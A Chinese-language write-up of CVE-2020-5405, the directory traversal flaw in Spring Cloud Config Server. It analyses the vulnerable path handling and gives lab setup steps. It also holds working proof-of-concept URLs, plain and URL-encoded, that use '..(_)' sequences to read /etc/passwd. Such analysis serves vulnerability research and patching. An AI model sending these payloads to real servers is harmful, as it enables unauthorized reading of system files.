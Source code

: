 （CVE-2020-5405）Spring Cloud Config Server 目录穿越漏洞
========================================================

一、漏洞简介
------------

Spring Cloud
Config为分布式系统的外部配置提供客户端的服务端的支持。使用了它，开发人员就可以在一个中心仓库管理应用程序在所有环境中的外部配置。2020-02-26
Spring 收到漏洞报告, Spring Cloud Config Server 存在目录穿越漏洞。

二、漏洞影响
------------

Spring Cloud Config Server 2.2.0-2.2.1

Spring Cloud Config Server 2.1.0-2.1.6

三、复现过程
------------

### 漏洞分析

其实往前看有个替换的操作,很显眼

![](./resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId25.png)

name和label的`(_)`会被替换成`/`,看到这里,我尝试构造poc

    http://www.0-sec.org:8888/aaaa/aaaa/%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%65%74%63/passwd

我们让label为`..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)etc`,path为`passwd`,这样拼接完应该是`file:/xxx/xxx/xxx/../../../../../etc/passwd`

但是如果label不为master的话,代码逻辑就会先去checkout,然后就异常了

这里面会导致抛出异常,具体抛出异常的点在哪呢,在`org.springframework.cloud.config.server.environment.MultipleJGitEnvironmentRepository`

![](./resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId26.png)

在CVE-2019-3799中,我们使用的配置是常用的`spring.cloud.config.server.git.uri`,它会选择使用`MultipleJGitEnvironmentRepository.class`的getLocations,然后就会走到checkout,抛出异常了,那么我们怎么去不走checkout逻辑呢。

通过翻文档[https://zq99299.github.io/note-book/spring-cloud-tutorial/config/002.html\#%E7%89%88%E6%9C%AC%E6%8E%A7%E5%88%B6%E5%90%8E%E7%AB%AF%E6%96%87%E4%BB%B6%E7%B3%BB%E7%BB%9F](https://zq99299.github.io/note-book/spring-cloud-tutorial/config/002.html#版本控制后端文件系统)

得知这个配置是让它从本地进行加载,而不是用git,通过在application.properties配置

    spring.profiles.active=native
    spring.cloud.config.server.native.search-locations=file:/Users/p0desta/Desktop

其实通过补丁我们也可以发现端倪

![](./resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId28.png)

配置后重新跟进调试

![](./resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId29.png)

然后就在`/org/springframework/cloud/config/server/environment/NativeEnvironmentRepository.class@getLocations`中对路径进行了处理,大致就是对路径进行拼接,然后存在ouput数组中,返回一个新的Locations对象

![](./resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId30.png)

然后后面就是跟CVE-2019-3799一样,直接读文件了。

### 漏洞复现

下载官方Spring Cloud
Config，具体版本`versions 2.1.5.RELEASE`，下载地址为：

    https://github.com/spring-cloud/spring-cloud-config/archive/v2.1.5.RELEASE.zip

导入IDEA项目

![1.png](./resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId32.png)

修改配置文件`src/main/resources/configserver.yml`

    info:
      component: Config Server
    spring:
      application:
        name: configserver
      autoconfigure.exclude: org.springframework.boot.autoconfigure.jdbc.DataSourceAutoConfiguration
      jmx:
        default_domain: cloud.config.server
      profiles:
        active: native
      cloud:
        config:
          server:
            native:
              search-locations:
                - file:///Users/rai4over/Desktop/spring-cloud-config-2.1.5/config-repo

    server:
      port: 8888
    management:
      context_path: /admin

设置`profiles-active`为`native`，设置`search-locations`为任意文件夹。

主文件入口位置为`org.springframework.cloud.config.server.ConfigServerApplication`，运行`spring-cloud-config-server`模块，环境开启成功运行在`127.0.0.1:8888`。

### POC

    https://www.0-sec.org:8888/1/1/..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)etc/passwd

URL编码变形

    https://www.0-sec.org:8888/1/1/..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29etc/passwd

返回结果

![2.png](./resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId34.png)

参考链接
--------

> http://p0desta.com/2020/04/16/spring-cloud-config%E7%9B%AE%E5%BD%95%E7%A9%BF%E8%B6%8A%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/\#CVE-2020-5405%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90
>
> https://xz.aliyun.com/t/8303
